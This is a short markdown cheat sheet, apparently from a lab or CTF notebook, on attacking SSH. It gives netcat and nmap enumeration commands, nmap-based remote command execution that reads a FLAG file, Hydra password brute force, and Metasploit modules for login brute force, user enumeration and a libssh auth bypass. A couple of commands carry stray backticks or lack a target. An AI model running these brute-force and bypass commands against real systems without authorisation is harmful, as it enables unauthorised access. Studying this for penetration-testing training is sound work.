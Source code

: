 
Fetch banner with netcat
```bash
nc $IP 22
```

Enumerate algorithms
```bash
nmap --script ssh2-enum-algos 192.201.39.3`
```

Get host key
```bash
nmap --script ssh-hostkey --script-args ssh_hostkey=full $IP
```

Auth methods
```bash
nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=student"`
```

```bash
22/tcp open  ssh
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password
```

Running commands via nmap:
```bash
nmap --script=ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG, ssh-run.username=student, ssh-run.password=" $IP
```
## Hydra Brute Force

```bash
hydra -L <wordlist> -P <password list> -t 4 $IP ssh
```

## metasploit

Brute force login
```bash
auxiliary/scanner/ssh/ssh_login
```

User enumeration
```bash
auxiliary/scanner/ssh/ssh_enumusers
```

Get shell on certain versions ssh v2
```bash
auxiliary/scanner/ssh/libssh_auth_bypass
```

